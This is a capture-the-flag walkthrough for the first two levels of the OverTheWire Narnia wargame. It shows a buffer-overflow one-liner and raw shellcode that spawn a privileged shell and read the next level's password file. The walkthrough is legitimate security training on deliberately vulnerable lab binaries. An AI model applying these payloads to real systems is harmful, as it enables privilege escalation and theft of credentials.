


## Narnia 0
In `/narnia/narnia0.c` we can find the source code of `/narnia/narnia0`

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

And it's a simple stack overflow bug because `buf` only has 20 bytes and 
`scanf` will read 24 bytes into where `buf` starts. And the extra 4 bytes
will overwrite the value in `val`.

Therefore, we can do a oneliner as follows to get shell

```bash
ssh -p 2226 narnia0@narnia.labs.overthewire.org bash -c "\"(echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde' && cat) | /narnia/narnia0\""
```

Now once we type the password of narnia0, `/narnia/narnia0` will send us to
 a sub-shell and we should be `narnia1` in this new shell.

To get the password of user `narnia1`, we simply type 
`cat /etc/narnia_pass/narnia1` and press return.




## Narnia 1

Now we have the password to log in to `narnia1`, we can find its source code
at `/narnia/narnia1.c`.

```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

`ret` is a function pointer, so once we get the value of the environment
variable, `EGG`, it will be assigned to `ret`. 

And calling `ret()` will be effeectively jump to the position of the result of
`getenv("EGG")`, it will execute whatever instruction
we set in the env var `EGG`.

Therefore, we can craft some shellcode and get shell.

```bash
$ pwn shellcraft -f d setreuid
\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80
$ pwn shellcraft -f d sh
\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80
```

Or you can use my fork of pwntools which supports multiple shellcraft commands,
[cocoa-xu/pwntools:cx-multi-shellcraft-cmd](https://github.com/cocoa-xu/pwntools/tree/cx-multi-shellcraft-cmd).

```bash
$ pwn shellcraft -f d setreuid + sh
\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80
```

So we can do this to get shell and gat the password for user `narnia2`.

```bash
EGG=`echo -e '\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80'` /narnia/narnia1
$ cat /etc/narnia_pass/narnia2
```


